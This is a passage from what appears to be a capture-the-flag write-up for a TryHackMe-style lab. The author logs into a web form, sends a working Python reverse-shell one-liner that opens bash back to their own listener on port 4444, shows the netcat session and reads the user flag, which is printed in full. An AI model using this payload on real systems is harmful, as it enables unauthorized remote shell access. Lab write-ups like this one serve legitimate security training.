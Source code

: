 We can login (http://10.10.94.63:8080/login) using the credentials found just previously. Once logged in, we are redirected to the `/cat` page.

## Reverse Shell

After playing a bit with the form and payloads, I was able to send the following payload (python reverse shell):

~~~
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.50.72",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
~~~

We now have a reverse shell:

~~~
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.94.63] 35218
bash: cannot set terminal process group (726): Inappropriate ioctl for device
bash: no job control in this shell
paradox@cchq:~$ pwd
pwd
/home/paradox
~~~

## Paradox Flag

~~~
paradox@cchq:~$ ll
ll
total 36
drwxr-xr-x 5 paradox paradox 4096 Feb 22 18:48 ./
drwxr-xr-x 6 root    root    4096 Jan  2 10:24 ../
lrwxrwxrwx 1 paradox paradox    9 Feb 20 17:13 .bash_history -> /dev/null
-rw-r--r-- 1 paradox paradox  220 Jan  2 10:24 .bash_logout
-rw-r--r-- 1 paradox paradox 3882 Feb 20 21:50 .bashrc
drwx------ 2 paradox paradox 4096 Jan  2 18:31 .cache/
drwxr-xr-x 4 paradox paradox 4096 Jan  1 22:03 CATapp/
drwx------ 3 paradox paradox 4096 Jan  2 18:31 .gnupg/
-rw-r--r-- 1 paradox paradox  807 Jan  2 10:24 .profile
-rw------- 1 paradox paradox   38 Feb 20 20:23 user.txt
paradox@cchq:~$ cat user.txt
cat user.txt
THM{2dccd1ab3e03990aea77359831c85ca2}
~~~

Paradox flag: `THM{2dccd1ab3e03990aea77359831c85ca2}`

# Find out what Szymex is working on

*Hint: Locating shipment...*
